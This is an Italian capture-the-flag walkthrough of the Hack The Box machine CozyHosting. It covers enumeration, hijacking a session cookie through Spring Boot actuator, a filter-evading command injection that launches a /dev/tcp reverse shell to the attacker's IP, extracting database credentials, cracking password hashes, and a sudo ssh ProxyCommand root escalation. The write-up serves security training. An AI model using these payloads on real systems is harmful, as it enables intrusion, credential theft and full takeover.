










**Target:10.10.11.230**

# INFORMATION GATHERING

Per prima cosa lanciamo un veloce scan con [Nmap](Note/Tool/Nmap.md)

```bash
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# nmap -sC -sV --min-rate=5000 10.10.11.230
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 09:47 EST
Nmap scan report for 10.10.11.230
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.84 seconds
```

Abbiamo 2 porte aperte:

- 22 ssh OpenSSH 8.9p1 
- 80  http Nginx 1.18.0 

Uno scan ulteriore su tutte le porte non ci da nessuna nuova informazione.

Visto che la versione si OpenSSH è recente avrò bisogno di credenziali valide per accedere, quindi iniziamo l'enumerazione dalla porta 80

# ENUMERATION

# Port 80

Dalla scansione di nmap vediamo che non riusciamo a seguire il redirect all'indirizzo `http:/cozyhositng` . Aggiungiamolo al nostro `etc/hosts`

```shell-session 
10.10.11.230 cozyhosting
```

adesso visitiamo la pagina web

alla pagina `/login` abbiamo un form di login e il riamando `BotstrapMade` ma nulla di interessante.
passiamo l'enumerazione con [Gobuster](Note/Tool/Gobuster.md)

```shell-session
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://cozyhosting.htb
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/11/24 10:00:03 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
===============================================================
2023/11/24 10:00:44 Finished
===============================================================
```

la pagine `/admin` ci da un codice 400 di accesso non autorizzato e ci rimanda alla pagine di login 
per il resto nulla di interessante se non la pagine `/errore` che andiamo a vedere.





Ora sappiamo che almeno una parte del sito è Spring Boot, interessante. Cercando per Spring Boot exploit troviamo [questa](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators) risorsa 

Stando a quanto riportato l'endpoint `/acturator` potrebbe contenere informazioni interessanti. Verifichiamo.

Abbiamo diverse path ma quella che potrebbe fare al caso nostro è `sessions` 


Sembrerebbe un cookie di sessions per l'utente `kanderson`
Non ci resta che andare nella pagina di login e sostituire il nostro cookie con quello trovato sperando che sia l'admin


E ci siamo !

# # GAINING AN INITIAL FOOTHOLD 

Nella Dashboard, incontriamo una funzione relativa alla configurazione delle connessioni SSH.

Quando esaminiamo Burpsuite, notiamo un reindirizzamento a un'altra posizione, in particolare all'interno del messaggio di errore che menziona "Connect Time Out".Se lasciamo vuota la sezione "Username", osserviamo un errore relativo a un comando SSH, che indica una potenziale vulnerabilità di Command Injection in questa sezione.

Proviamo una Command Injection, utilizzando questo payload ed lo encodiamo in URL
```bash
┌──(root㉿kali)-[/home/kali]
└─# echo 'bash -i >& /dev/tcp/10.10.14.48/4444 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjEK
```

Ci mettiamo in ascolto con nc 

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
listening on [any] 4444 ...
```

Inseriamo il payload nel campo username nella richiesta di burp, ma non funziona.
modifichiamo il payload

```shell-session
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

>[!note]
> ${IFS} è l'equivalente di uno spazio bianco.

Inviamo questo payload sempre nel parametro username ma prima lo codifichiamo in URL, possiamo farlo in tramite [Urlencode](https://www.urlencoder.org) che tramite burp stesso 


Eseguiamo e abbiamo la nostra shell

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.230] 36600
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

# PRIVESC

## app --> josh

nella home abbiamo l'utente `josh`  ma non abbiamo i permessi per entrare, dobbiamo aumentare i nostri privilegi
```shell-session
app@cozyhosting:/home$ cd josh/
bash: cd: josh/: Permission denied
```

nella directory `/app`  troviamo un il file .jar

```shell-session
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Tiriamo su un server python sulla macchina vittima 

```shell-session
app@cozyhosting:/app$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

e sulla nostra lo scarichiamo con `wget`

```shell-sesssion
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# wget http://10.10.11.230:8000/cloudhosting-0.0.1.jar
--2023-11-28 14:16:17--  http://10.10.11.230:8000/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar                                     100%[=======================================================================================================================================>]  57.47M  4.93MB/s    in 13s

2023-11-28 14:16:30 (4.51 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

e apriamolo con `jd-gui`
>[!nota] se non fosse installato utilizziamo apt install

```shell-session
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# jd-gui cloudhosting-0.0.1.jar
```

Dentro troviamo quelle che sono le credenziali di accesso database PostgreSQL utilizzando questi nome utente e password.



Credenziali psql
postgres:Vg&nvzAQ7XxR

```shell session
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#

```

con `\c` ci collegiamo al database cozyhosting
```shell-session
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
```

con `\d` vediamo le tabelle contenute 

```shell-session
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
```


con `select * from users;` estrapoliamo il contenuto della tabella users

```
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

abbiamo degli hash gli salviamo e gli diamo in pasto a [John The Ripple](Note/Tool/John%20The%20Ripple.md)

```
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# cat hash.txt
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:29 DONE (2023-11-28 14:35) 0.03370g/s 94.64p/s 94.64c/s 94.64C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

nella fase di enumerazione abbiamo visto che abbiamo un utente di nome josh  proviamo a loggarci in ssh con questo utente utilizzando la password trovata

```shell-session
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# ssh josh@10.10.11.230
The authenticity of host '10.10.11.230 (10.10.11.230)' can't be established.
ED25519 key fingerprint is SHA256:x/7yQ53dizlhq7THoanU79X7U63DSQqSi39NPLqRKHM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.230' (ED25519) to the list of known hosts.
josh@10.10.11.230's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 28 01:38:49 PM UTC 2023

  System load:           0.0
  Usage of /:            56.5% of 5.42GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.230
  IPv6 address for eth0: dead:beef::250:56ff:feb9:bb1d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29
```

e siamo dentro !

e abbiamo la nostra user_flag

```shell-session
josh@cozyhosting:~$ cat user.txt
af4625e9d14fa724a80a4470d2fa2a80
```

## josh --> root

Come sempre una delle prime cosa da fare è vedere se abbiamo eseguire qualcosa con i privilegi da root

```shell-session
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Se ci rechiamo su [GTFOBINS](https://gtfobins.github.io/#ssh) e cerchiamo per il binario ssh troviamo questo 

```
## Sudo[](https://gtfobins.github.io/gtfobins/ssh/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- Spawn interactive root shell through ProxyCommand option.
    
    ```
    sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    ```
```

Non ci resta prova 

```shell-session
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

e ci prediamo la nostra root_flag

```shell-session
# cat /root/root.txt
cd478fe512380981d5abe499fda7730c
```
